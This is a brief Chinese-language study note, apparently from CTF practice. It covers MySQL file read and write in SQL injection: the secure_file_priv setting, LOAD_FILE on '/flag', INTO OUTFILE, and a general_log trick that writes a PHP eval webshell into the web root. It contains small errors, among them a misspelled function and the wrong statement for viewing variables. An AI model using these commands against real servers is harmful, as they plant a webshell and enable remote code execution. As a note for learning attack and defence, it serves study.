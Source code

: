 ## 背景知识：
在 mysqld 服务器维护两种变量，全局变量影响服务器的全局操作，会话变量影响具体客户端连接相关操作。

查看变量的语句：
```sql
show databases like "a%"
```
其中我们的 `a%` 表示我们
![[Pasted image 20240305205151.png]]

## 相关变量：
1. `secure_file_priv` 对我们读写文件有影响。我们的这个参数是用来限制 `LOAD DATA,SELECT...OUTFILE,and LOAD_FILE()` 传到那个指定目录的。

当 `secure_file_priv` 的值为 null，表示限制 mysqld 不允许导入|道出。默认为 null

当 `secure_file_priv` 的值为/tmp/，表示限制只能发生在固定目录下，

当 `secure_file_priv` 没有具体值时，表示不对 `mysqld` 的导入|导出做限制。
![[Pasted image 20240305210318.png]]
## MYSQL 读文件
```sql
Select loda_file('/flag')
```

执行了上述语句后，我们就会吧我们的 flag 文件的内容给输出出来。

## MYSQL 写文件：
```sql
select xxxxx into outfile '/tmp/outfile.php';
```

执行了上述的语句后，我们就会把我们的对应内容输出到我们的 `outfile.php` 当中。

然后，我们就可以把我们的一句话木马写入到我们的文件当中。

## 关闭文件输入的情况
我们需要考虑怎么在 `security_file_priv` 为 null 的情况下进行堆叠注入。

我们考虑使用我们日志来实现我们的 sql 文件输入，我们可以使用下面一系列语句来实现哦我们的堆叠注入：
```sql
set global general_log=on;
set global general_log_file='C:/phpstudy/WWW/789.php'
select "<?php eval($_POST['a']);?>"
```

![[Pasted image 20240305214046.png]]

![[Pasted image 20240305214029.png]]

然后我们再去执行我们的一句话木马即可。
